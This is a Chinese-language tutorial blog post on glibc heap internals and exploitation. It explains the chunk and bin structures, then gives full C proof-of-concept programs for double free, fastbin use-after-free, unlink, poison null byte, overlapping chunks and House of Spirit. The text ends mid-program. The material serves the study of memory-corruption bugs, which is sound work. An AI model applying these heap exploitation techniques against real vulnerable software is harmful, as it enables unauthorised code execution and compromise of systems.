

Title: How2heap
Date: 2018-03-26 21:31:10.349398
Modified: 2018-03-26 21:31:10.349398
Category: linux
Tags: linux,heap
Slug: how2heap
Authors: Alset0326
Summary: How to exploit heap on linux x64

[TOC]

# 0. 基础

X64系统下的glibc heap基础，对齐为0x10字节，指针长度为8字节

## 0. malloc_chunk

```c
struct malloc_chunk {
  INTERNAL_SIZE_T      mchunk_prev_size;  /* Size of previous chunk (if free).  */
  INTERNAL_SIZE_T      mchunk_size;       /* Size in bytes, including overhead. */
  struct malloc_chunk* fd;                /* double links -- used only if free. */
  struct malloc_chunk* bk;
  /* Only used for large blocks: pointer to next larger size.  */
  struct malloc_chunk* fd_nextsize; /* double links -- used only if free. */
  struct malloc_chunk* bk_nextsize;
};

typedef struct malloc_chunk* mchunkptr;
```

## 1. Allocated chunk

```
   chunk1-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if unallocated (P clear)  |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk1, in bytes                    |A|M|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             User data starts here...                          .
            .                                                               .
            .             (malloc_usable_size() bytes)                      .
            .                                                               |
   chunk2-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |    (size of chunk1, but used for chunk1's application data)   |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |              Size of chunk2, in bytes                   |A|0|1|
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

此时chunk2的前8字节都是chunk1的数据

## 2. Free chunk

```
   chunk1-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of previous chunk, if unallocated (P clear)  |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `head:' |             Size of chunk1, in bytes                    |A|0|P|
      mem-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Forward pointer to next chunk in list             |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Back pointer to previous chunk in list            |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Unused space (may be 0 bytes long)                .
            .                                                               .
            .                                                               |
   chunk2-> +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
    `foot:' |             Size of chunk1, in bytes                          |
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
            |             Size of chunk2, in bytes                    |A|0|0|
            +-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+
```

## 3. 标志位

**P (PREV_INUSE)**: 0表示（内存地址上相邻的）前一个chunk是free的状态，此时该chunk的前8字节保存的是前一个free的chunk的大小。如果是1，则该chunk的前8个字节是前一个chunk的数据。

**M (IS_MMAPPED)**: 这个chunk是mmap出来的，此时其他两个bit会被忽略

**A (NON_MAIN_ARENA)**: 0表示这个chunk是在main arena上分配的，新线程会生成新的arena，这个bit会设为1

## 4. Bins and Chunks

一个bin指的是一个双向或者单向链表，用来存储free的chunk。bin根据其存储的chunk的大小分为以下几类，每一类使用数组存储多个bin，该数组称为bins：

1. Fast bin
2. Unsorted bin
3. Small bin
4. Large bin

Fast bins的定义是

```c
typedef struct malloc_chunk *mfastbinptr;

mfastbinptr fastbinsY[NFASTBINS]; // Array of pointers to chunks
```

Unsorted, small 和 large bins 存储在同一个数组中

```c
typedef struct malloc_chunk* mchunkptr;
#define NBINS             128
mchunkptr bins[NBINS * 2 - 2]; // Array of pointers to chunks
```

在检索的时候，libc设定最开始的bin为`bin_at(1)`，也就是检索是从1开始，不存在`bin_at(0)`，此举是为了加速。bin1存储的是`unsorted bin`。

每一个bin保存了两个属性在bins中，分别是bin链表的头指针和尾指针。如果是fast bins，则是单链表，尾指针为空。

###0. Fast bins

Fast bin有10个，每一个 fast bin 维护一个单向链表，插入和删除都在链表头部，使用后进先出（LIFO）的规则。

每一个bin所保存的chunk都有相同的大小（size），分别是0x20、0x30、0x40……0xb0，最小0x20、最大0xb0

malloc的时候，malloc会根据会参数计算所需申请的chunk大小，计算的公式是malloc的size加8然后向上对齐于0x10

```c
chunk_size = ((malloc_size + 0x8) + 0xf) & (~0xf)
```

但是，fastbin并不会使用全部的fastbin，而是存在一个全局变量`global_max_fast`，这个变量指明了使用fastbin的chunk的最大值，这个值在64位系统上是`0x80`，也就是说只有chunk大小小于等于0x80的时候，free时才会存储到fastbin中，否则会存储到smallbin中，该全局变量可以被`__libc_mallopt`函数修改。该变量默认值为：

```c
#ifndef DEFAULT_MXFAST
#define DEFAULT_MXFAST     (64 * SIZE_SZ / 4)
#endif
malloc_init_state (mstate av)
{
  //...
  if (av == &main_arena)
    set_max_fast (DEFAULT_MXFAST);
  //...
}
```

### 1. Small bins

Small bin有62个，每一个small bin都是一个双向链表，插入发生在链表头部、删除发生在链表尾部，使用先进先出（FIFO）的规则。

每一个bin所保存的chunk都有相同的大小，分别是0x20、0x30、0x40……0x3f0，最小0x20、最大0x3f0

至于为什么smallbin会包含fastbin的大小，那是因为在`malloc_consolidate`操作之后，fastbin的空间会被回收，而单独的不能合并的chunk就会保存到smallbin中。

### 2. Large bins

Large bin有63个，每一个 large bin都是一个双向链表，每一个large bin都含有不同大小的chunk，一个链表中的各个chunk按照大小降序排列，最大的chunk在链表头、最小的chunk在链表尾，插入和删除操作可能发生在任意位置。

默认chunk大小大于1024的为largechunk，libc的注释有很重大的问题，下面是修正

```c
/*
    No. of Bins       Spacing between bins      Bin index start        Min size
    33 bins of size      64                            64                1024
    15 bins of size     512                            97                3136
     8 bins of size    4096                            112               10752
     1 bins of size    4096/32768                      120               40960
     3 bins of size   32768                            121               65536
     2 bins of size  262144                            124               163840
     1 bin  of size what's left                        126               524288
 */
// XXX It remains to be seen whether it is good to keep the widths of
// XXX the buckets the same or whether it should be scaled by a factor
// XXX of two as well.
#define largebin_index_64(sz)                                                \
  (((((unsigned long) (sz)) >> 6) <= 48) ?  48 + (((unsigned long) (sz)) >> 6) :\
   ((((unsigned long) (sz)) >> 9) <= 20) ?  91 + (((unsigned long) (sz)) >> 9) :\
   ((((unsigned long) (sz)) >> 12) <= 10) ? 110 + (((unsigned long) (sz)) >> 12) :\
   ((((unsigned long) (sz)) >> 15) <= 4) ? 119 + (((unsigned long) (sz)) >> 15) :\
   ((((unsigned long) (sz)) >> 18) <= 2) ? 124 + (((unsigned long) (sz)) >> 18) :\
   126)
```

### 3. Unsorted bin

只有一个Unsorted bin，当 small bin 和 large bin 释放的时候，会暂存在这里。这个bin主要是起到一个缓存的作用。

当small bin和large bin从unsorted bin中回收的时候，可能会发生chunk的合并操作。

unsorted bin 的队列使用 bins 数组的第一个，如果被用户释放的 chunk 大于 max_fast，或者 fast bins 中的空闲 chunk 合并后，这些 chunk 首先会被放到 unsorted bin 队列中。在进 行 malloc 操作的时候，如果在 fast bins 中没有找到合适的 chunk，则 ptmalloc 会先在 unsorted bin 中查找合适的空闲 chunk，然后才查找 bins。
如果 unsorted bin 不能满足分配要求。malloc 便会将 unsorted bin 中的 chunk 加入 bins 中。然后再从 bins 中继续进行查找和分配过程。

从这个过程可以看出来，unsorted bin可以看做是bins的一个缓冲区，增加它只是为了加快分配的速度。

### 4. Top chunk

这是一个特殊的chunk，用于指向arena中从未被申请的空间，位于整个arena的末尾。

如果他的空间不足时，malloc会使用`sbrk`系统调用增加arena的空间。

该chunk的`P`位标记永远会被设置。

### 5. Last remainder chunk 

用于暂存分割大chunk生成的两个小chunk中未被使用的那一个。

## 5. Malloc核心步骤



# 1. Exploit

## 0. Double Free

对fastbin执行free的时候，会检查当前fastbin头部的chunk与待free的chunk是否是同一个，因此需要在两次次free中间插入其他相同大小的chunk的free

* 适用条件
  * 能够Double Free

* 安全检查
  * fastbin的头部chunk与待free的chunk不是同一个

```c
a = malloc(10);     // 0xa04010
b = malloc(10);     // 0xa04030
c = malloc(10);     // 0xa04050

free(a);
free(b);  // To bypass "double free or corruption (fasttop)" check
free(a);  // Double Free !!

d = malloc(10);     // 0xa04010
e = malloc(10);     // 0xa04030
f = malloc(10);     // 0xa04010   - Same as 'd' !
```

注意，上述代码的方法不适合smallbin，因为smallbin会检查下一个chunk的P位有没有被设置，而如果我们没有修改P位，则freebuild报错“double free or corruption (!prev)”

此外，可以通过在两次free中间申请largechunk（>=1024），使得第一次被free的fastbin进入unsorted bin再进入smallbin，这样第二次free的时候也可以绕过fastbin的头部检查。代码如下

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  fprintf(stderr, "In process unsorted bin, p1 is moved to the smallbin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in small bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

## 1. Forging chunks / UAF on fastbin

chunk被free掉之后，如果有UAF漏洞，那么可以修改被free的chunk的fd或者bd指针，指向假的chunk，使得随后的第二次malloc会获得我们的假的chunk

* 条件
  * UAF

* 安全检查
  * 假的chunk的大小需要与free的chunk相同

一个fastbin的UAF利用如下

```c
struct forged_chunk {
  size_t prev_size;
  size_t size;
  struct forged_chunk *fd;
  struct forged_chunk *bck;
  char buf[10];               // padding
};

// First grab a fast chunk
a = malloc(10);               // 'a' points to 0x219c010

// Create a forged chunk
struct forged_chunk chunk;    // At address 0x7ffc6de96690
chunk.size = 0x20;            // This size should fall in the same fastbin
data = (char *)&chunk.fd;     // Data starts here for an allocated chunk
strcpy(data, "attacker's data");

// Put the fast chunk back into fastbin
free(a);
// Modify 'fd' pointer of 'a' to point to our forged chunk
*((unsigned long long *)a) = (unsigned long long)&chunk;
// Remove 'a' from HEAD of fastbin
// Our forged chunk will now be at the HEAD of fastbin
malloc(10);                   // Will return 0x219c010

victim = malloc(10);          // Points to 0x7ffc6de966a0
printf("%s\n", victim);       // Prints "attacker's data" !!
```

## 2. Unlink Exploit

unlink指的是将chunk从bin的链表中间的某个位置取出的操作，在unlink的过程中会对被取出chunk的前后chunk的fd和bd进行重置。

* 条件
  * 存在内存上连续的两个chunk，前一个chunk能够溢出修改后一个chunk的P位和prev_size
  * 上述两个chunk大小属于fastbin

* 安全检查
  * 假的chunk确保`P->fd->bk == P`和`P->bk->fd == P`

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

int main() {
  unsigned long long *chunk1, *chunk2;
  struct chunk_structure *fake_chunk, *chunk2_hdr;
  char data[20];

  // First grab two chunks (non fast)
  chunk1 = malloc(0x80);
  chunk2 = malloc(0x80);
  printf("%p\n", &chunk1);
  printf("%p\n", chunk1);
  printf("%p\n", chunk2);

  // Assuming attacker has control over chunk1's contents
  // Overflow the heap, override chunk2's header

  // First forge a fake chunk starting at chunk1
  // Need to setup fd and bk pointers to pass the unlink security check
  fake_chunk = (struct chunk_structure *)chunk1;
  fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
  fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

  // Next modify the header of chunk2 to pass all security checks
  chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
  chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
  chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

  // Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
  // This results in chunk1 pointer pointing to chunk1 - 3
  // i.e. chunk1[3] now contains chunk1 itself.
  // We then make chunk1 point to some victim's data
  free(chunk2);
  printf("%p\n", chunk1);
  printf("%x\n", chunk1[3]);

  chunk1[3] = (unsigned long long)data;

  strcpy(data, "Victim's data");

  // Overwrite victim's data using chunk1
  chunk1[0] = 0x002164656b636168LL;

  printf("%s\n", data);

  return 0;
}
```

unlink过程中，会设置

1. Set `P->fd->bk` = `P->bk`.
2. Set `P->bk->fd` = `P->fd`.

此处 `P->fd->bk` 和 `P->bk->fd` 都指向`P`，因此只有第二行的语句有效，最终使得

​	`P=P->fd`

此处P是一个指针，原本指向malloc出来的值，一般是一个栈变量，`P->fd`一般指向`P-0x8*3`的位置也就是`P`向前数第三个变量，同样也是栈变量。最终也就使得`P`指向了栈上，从而可以对栈变量进行修改了。

## 3.0 poison_null_byte / Shrinking Free Chunks / 减少free的chunk的size

本攻击通过溢出减少已被free掉的chunk的大小，从而使得再下一次分配时，原chunk的所有空间无法被利用完，使得与之后的chunk之间有空隙，那么当之后的chunk被free时，会执行合并操作，把已经被分配的空间合并

* 条件

  * 能够减少已free的chunk的大小，如溢出

* 安全检查

  * 被修改大小的chunk的头部新申请的chunk需要已经被free，并且不是fastchunk
  * 被修改大小的chunk `P`需满足` chunksize(P) == prev_size (next_chunk(P))`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>


int main()
{
	fprintf(stderr, "Welcome to poison null byte 2.0!\n");
	fprintf(stderr, "Tested in Ubuntu 14.04 64bit.\n");
	fprintf(stderr, "This technique can be used when you have an off-by-one into a malloc'ed region with a null byte.\n");

	uint8_t* a;
	uint8_t* b;
	uint8_t* c;
	uint8_t* b1;
	uint8_t* b2;
	uint8_t* d;

	fprintf(stderr, "We allocate 0x100 bytes for 'a'.\n");
	a = (uint8_t*) malloc(0x100);
	fprintf(stderr, "a: %p\n", a);
	int real_a_size = malloc_usable_size(a);
	fprintf(stderr, "Since we want to overflow 'a', we need to know the 'real' size of 'a' "
		"(it may be more than 0x100 because of rounding): %#x\n", real_a_size);

	/* chunk size attribute cannot have a least significant byte with a value of 0x00.
	 * the least significant byte of this will be 0x10, because the size of the chunk includes
	 * the amount requested plus some amount required for the metadata. */
	b = (uint8_t*) malloc(0x200);

	fprintf(stderr, "b: %p\n", b);

	c = (uint8_t*) malloc(0x100);
	fprintf(stderr, "c: %p\n", c);

	uint64_t* b_size_ptr = (uint64_t*)(b - 8);

	// added fix for size==prev_size(next_chunk) check in newer versions of glibc
	// https://sourceware.org/git/?p=glibc.git;a=commitdiff;h=17f487b7afa7cd6c316040f3e6c86dc96b2eec30
	// this added check requires we are allowed to have null pointers in b (not just a c string)
	//*(size_t*)(b+0x1f0) = 0x200;
	fprintf(stderr, "In newer versions of glibc we will need to have our updated size inside b itself to pass "
		"the check 'chunksize(P) != prev_size (next_chunk(P))'\n");
	// we set this location to 0x200 since 0x200 == (0x211 & 0xff00)
	// which is the value of b.size after its first byte has been overwritten with a NULL byte
	*(size_t*)(b+0x1f0) = 0x200;

	// this technique works by overwriting the size metadata of a free chunk
	free(b);
	
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);
	fprintf(stderr, "b.size is: (0x200 + 0x10) | prev_in_use\n");
	fprintf(stderr, "We overflow 'a' with a single null byte into the metadata of 'b'\n");
	a[real_a_size] = 0; // <--- THIS IS THE "EXPLOITED BUG"
	fprintf(stderr, "b.size: %#lx\n", *b_size_ptr);

	uint64_t* c_prev_size_ptr = ((uint64_t*)c)-2;
	fprintf(stderr, "c.prev_size is %#lx\n",*c_prev_size_ptr);

	// This malloc will result in a call to unlink on the chunk where b was.
	// The added check (commit id: 17f487b), if not properly handled as we did before,
	// will detect the heap corruption now.
	// The check is this: chunksize(P) != prev_size (next_chunk(P)) where
	// P == b-0x10, chunksize(P) == *(b-0x10+0x8) == 0x200 (was 0x210 before the overflow)
	// next_chunk(P) == b-0x10+0x200 == b+0x1f0
	// prev_size (next_chunk(P)) == *(b+0x1f0) == 0x200
	fprintf(stderr, "We will pass the check since chunksize(P) == %#lx == %#lx == prev_size (next_chunk(P))\n",
		*((size_t*)(b-0x8)), *(size_t*)(b-0x10 + *((size_t*)(b-0x8))));
	b1 = malloc(0x100);

	fprintf(stderr, "b1: %p\n",b1);
	fprintf(stderr, "Now we malloc 'b1'. It will be placed where 'b' was. "
		"At this point c.prev_size should have been updated, but it was not: %lx\n",*c_prev_size_ptr);
	fprintf(stderr, "Interestingly, the updated value of c.prev_size has been written 0x10 bytes "
		"before c.prev_size: %lx\n",*(((uint64_t*)c)-4));
	fprintf(stderr, "We malloc 'b2', our 'victim' chunk.\n");
	// Typically b2 (the victim) will be a structure with valuable pointers that we want to control

	b2 = malloc(0x80);
	fprintf(stderr, "b2: %p\n",b2);

	memset(b2,'B',0x80);
	fprintf(stderr, "Current b2 content:\n%s\n",b2);

	fprintf(stderr, "Now we free 'b1' and 'c': this will consolidate the chunks 'b1' and 'c' (forgetting about 'b2').\n");

	free(b1);
	free(c);
	
	fprintf(stderr, "Finally, we allocate 'd', overlapping 'b2'.\n");
	d = malloc(0x300);
	fprintf(stderr, "d: %p\n",d);
	
	fprintf(stderr, "Now 'd' and 'b2' overlap.\n");
	memset(d,'D',0x300);

	fprintf(stderr, "New b2 content:\n%s\n",b2);

	fprintf(stderr, "Thanks to http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf "
		"for the clear explanation of this technique.\n");
}
```

## 3.1 Overlapping Chunks / Increasing used Chunks / 增加在使用的chunk的大小

本攻击通过增加正在使用的chunk的大小，使得他的大小覆盖其后面正在使用的chunk，导致free该被修改大小的chunk时将后面正在使用的chunk一并free掉，再下一次malloc会产生地址重叠。

* 条件
  * 能够修改正在使用的chunk的大小
* 安全检查
  * ？？

```c
/*
 Yet another simple tale of overlapping chunk.

 This technique is taken from
 https://loccs.sjtu.edu.cn/wiki/lib/exe/fetch.php?media=gossip:overview:ptmalloc_camera.pdf.
 
 This is also referenced as Nonadjacent Free Chunk Consolidation Attack.

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <malloc.h>

int main(){
  
  intptr_t *p1,*p2,*p3,*p4,*p5,*p6;
  unsigned int real_size_p1,real_size_p2,real_size_p3,real_size_p4,real_size_p5,real_size_p6;
  int prev_in_use = 0x1;

  fprintf(stderr, "\nThis is a simple chunks overlapping problem");
  fprintf(stderr, "\nThis is also referenced as Nonadjacent Free Chunk Consolidation Attack\n");
  fprintf(stderr, "\nLet's start to allocate 5 chunks on the heap:");

  p1 = malloc(1000);
  p2 = malloc(1000);
  p3 = malloc(1000);
  p4 = malloc(1000);
  p5 = malloc(1000);

  real_size_p1 = malloc_usable_size(p1);
  real_size_p2 = malloc_usable_size(p2);
  real_size_p3 = malloc_usable_size(p3);
  real_size_p4 = malloc_usable_size(p4);
  real_size_p5 = malloc_usable_size(p5);

  fprintf(stderr, "\n\nchunk p1 from %p to %p", p1, (unsigned char *)p1+malloc_usable_size(p1));
  fprintf(stderr, "\nchunk p2 from %p to %p", p2,  (unsigned char *)p2+malloc_usable_size(p2));
  fprintf(stderr, "\nchunk p3 from %p to %p", p3,  (unsigned char *)p3+malloc_usable_size(p3));
  fprintf(stderr, "\nchunk p4 from %p to %p", p4, (unsigned char *)p4+malloc_usable_size(p4));
  fprintf(stderr, "\nchunk p5 from %p to %p\n", p5,  (unsigned char *)p5+malloc_usable_size(p5));

  memset(p1,'A',real_size_p1);
  memset(p2,'B',real_size_p2);
  memset(p3,'C',real_size_p3);
  memset(p4,'D',real_size_p4);
  memset(p5,'E',real_size_p5);
  
  fprintf(stderr, "\nLet's free the chunk p4.\nIn this case this isn't coealesced with top chunk since we have p5 bordering top chunk after p4\n"); 
  
  free(p4);

  fprintf(stderr, "\nLet's trigger the vulnerability on chunk p1 that overwrites the size of the in use chunk p2\nwith the size of chunk_p2 + size of chunk_p3\n");

  *(unsigned int *)((unsigned char *)p1 + real_size_p1 ) = real_size_p2 + real_size_p3 + prev_in_use + sizeof(size_t) * 2; //<--- BUG HERE 

  fprintf(stderr, "\nNow during the free() operation on p2, the allocator is fooled to think that \nthe nextchunk is p4 ( since p2 + size_p2 now point to p4 ) \n");
  fprintf(stderr, "\nThis operation will basically create a big free chunk that wrongly includes p3\n");
  free(p2);
  
  fprintf(stderr, "\nNow let's allocate a new chunk with a size that can be satisfied by the previously freed chunk\n");

  p6 = malloc(2000);
  real_size_p6 = malloc_usable_size(p6);

  fprintf(stderr, "\nOur malloc() has been satisfied by our crafted big free chunk, now p6 and p3 are overlapping and \nwe can overwrite data in p3 by writing on chunk p6\n");
  fprintf(stderr, "\nchunk p6 from %p to %p", p6,  (unsigned char *)p6+real_size_p6);
  fprintf(stderr, "\nchunk p3 from %p to %p\n", p3, (unsigned char *) p3+real_size_p3); 

  fprintf(stderr, "\nData inside chunk p3: \n\n");
  fprintf(stderr, "%s\n",(char *)p3); 

  fprintf(stderr, "\nLet's write something inside p6\n");
  memset(p6,'F',1500);  
  
  fprintf(stderr, "\nData inside chunk p3: \n\n");
  fprintf(stderr, "%s\n",(char *)p3); 


}
```

## 3.2 Overlapping Chunks / Increase free chunks / 增加free chunk大小

本攻击适用于能够增加被free的chunk的大小，使得下一次malloc时能够覆盖被free的chunk后面的chunk

* 条件
  * 能够增加已经free的chunk的大小
* 安全检查
  * 设置已free的chunk的PREV_INUSE为1，（不是必须？？）

```c
/*

 A simple tale of overlapping chunk.
 This technique is taken from
 http://www.contextis.com/documents/120/Glibc_Adventures-The_Forgotten_Chunks.pdf

*/

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>

int main(int argc , char* argv[]){


	intptr_t *p1,*p2,*p3,*p4;

	fprintf(stderr, "\nThis is a simple chunks overlapping problem\n\n");
	fprintf(stderr, "Let's start to allocate 3 chunks on the heap\n");

	p1 = malloc(0x100 - 8);
	p2 = malloc(0x100 - 8);
	p3 = malloc(0x80 - 8);

	fprintf(stderr, "The 3 chunks have been allocated here:\np1=%p\np2=%p\np3=%p\n", p1, p2, p3);

	memset(p1, '1', 0x100 - 8);
	memset(p2, '2', 0x100 - 8);
	memset(p3, '3', 0x80 - 8);

	fprintf(stderr, "\nNow let's free the chunk p2\n");
	free(p2);
	fprintf(stderr, "The chunk p2 is now in the unsorted bin ready to serve possible\nnew malloc() of its size\n");

	fprintf(stderr, "Now let's simulate an overflow that can overwrite the size of the\nchunk freed p2.\n");
	fprintf(stderr, "For a toy program, the value of the last 3 bits is unimportant;"
		" however, it is best to maintain the stability of the heap.\n");
	fprintf(stderr, "To achieve this stability we will mark the least signifigant bit as 1 (prev_inuse),"
		" to assure that p1 is not mistaken for a free chunk.\n");

	int evil_chunk_size = 0x181;
	int evil_region_size = 0x180 - 8;
	fprintf(stderr, "We are going to set the size of chunk p2 to to %d, which gives us\na region size of %d\n",
		 evil_chunk_size, evil_region_size);

	*(p2-1) = evil_chunk_size; // we are overwriting the "size" field of chunk p2

	fprintf(stderr, "\nNow let's allocate another chunk with a size equal to the data\n"
	       "size of the chunk p2 injected size\n");
	fprintf(stderr, "This malloc will be served from the previously freed chunk that\n"
	       "is parked in the unsorted bin which size has been modified by us\n");
	p4 = malloc(evil_region_size);

	fprintf(stderr, "\np4 has been allocated at %p and ends at %p\n", p4, p4+evil_region_size);
	fprintf(stderr, "p3 starts at %p and ends at %p\n", p3, p3+80);
	fprintf(stderr, "p4 should overlap with p3, in this case p4 includes all p3.\n");

	fprintf(stderr, "\nNow everything copied inside chunk p4 can overwrites data on\nchunk p3,"
		" and data written to chunk p3 can overwrite data\nstored in the p4 chunk.\n\n");

	fprintf(stderr, "Let's run through an example. Right now, we have:\n");
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);

	fprintf(stderr, "\nIf we memset(p4, '4', %d), we have:\n", evil_region_size);
	memset(p4, '4', evil_region_size);
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);

	fprintf(stderr, "\nAnd if we then memset(p3, '3', 80), we have:\n");
	memset(p3, '3', 80);
	fprintf(stderr, "p4 = %s\n", (char *)p4);
	fprintf(stderr, "p3 = %s\n", (char *)p3);
}

```


## 4. House of Spirit / Free虚假的chunk

该攻击方式与UAF类似，只不过是直接free掉虚假的chunk，这样就可以在下次malloc的时候直接获取我们虚假的chunk

* 条件
  * 能够free虚假的chunk
* 安全检查
  * 虚假的chunk以及该chunk后面chunk的大小需要满足安全检查，fastbin与smallbin的检查不同
  * fastchunk需要检查不是top chunk
  * smallchunk需要检查inuse和top chunk

```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

struct fast_chunk {
  size_t prev_size;
  size_t size;
  struct fast_chunk *fd;
  struct fast_chunk *bk;
  char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
  struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
  void *ptr, *victim;

  ptr = malloc(0x30);

  printf("%p\n", &fake_chunks[0]);
  printf("%p\n", &fake_chunks[1]);

  // Passes size check of "free(): invalid size"
  fake_chunks[0].size = sizeof(struct fast_chunk);

  // Passes "free(): invalid next size (fast)"
  fake_chunks[1].size = sizeof(struct fast_chunk)+0x10;

  // Attacker overwrites a pointer that is about to be 'freed'
  ptr = (void *)&fake_chunks[0].fd;

  free(ptr);

  victim = malloc(0x30);
  printf("%p\n", victim);

  return 0;
}
```

```c
#include <stdio.h>
#include <stdlib.h>

int main()
{
	fprintf(stderr, "This file demonstrates the house of spirit attack.\n");

	fprintf(stderr, "Calling malloc() once so that it sets up its memory.\n");
	malloc(1);

	fprintf(stderr, "We will now overwrite a pointer to point to a fake 'fastbin' region.\n");
	unsigned long long *a;
	// This has nothing to do with fastbinsY (do not be fooled by the 10) - fake_chunks is just a piece of memory to fulfil allocations (pointed to from fastbinsY)
	unsigned long long fake_chunks[10] __attribute__ ((aligned (16)));

	fprintf(stderr, "This region (memory of length: %lu) contains two chunks. The first starts at %p and the second at %p.\n", sizeof(fake_chunks), &fake_chunks[1], &fake_chunks[7]);

	fprintf(stderr, "This chunk.size of this region has to be 16 more than the region (to accomodate the chunk data) while still falling into the fastbin category (<= 128 on x64). The PREV_INUSE (lsb) bit is ignored by free for fastbin-sized chunks, however the IS_MMAPPED (second lsb) and NON_MAIN_ARENA (third lsb) bits cause problems.\n");
	fprintf(stderr, "... note that this has to be the size of the next malloc request rounded to the internal size used by the malloc implementation. E.g. on x64, 0x30-0x38 will all be rounded to 0x40, so they would work for the malloc parameter at the end. \n");
	fake_chunks[1] = 0x40; // this is the size

	fprintf(stderr, "The chunk.size of the *next* fake region has to be sane. That is > 2*SIZE_SZ (> 16 on x64) && < av->system_mem (< 128kb by default for the main arena) to pass the nextsize integrity checks. No need for fastbin size.\n");
        // fake_chunks[9] because 0x40 / sizeof(unsigned long long) = 8
	fake_chunks[9] = 0x1234; // nextsize

	fprintf(stderr, "Now we will overwrite our pointer with the address of the fake region inside the fake first chunk, %p.\n", &fake_chunks[1]);
	fprintf(stderr, "... note that the memory address of the *region* associated with this chunk must be 16-byte aligned.\n");
	a = &fake_chunks[2];

	fprintf(stderr, "Freeing the overwritten pointer.\n");
	free(a);

	fprintf(stderr, "Now the next malloc will return the region of our fake chunk at %p, which will be %p!\n", &fake_chunks[1], &fake_chunks[2]);
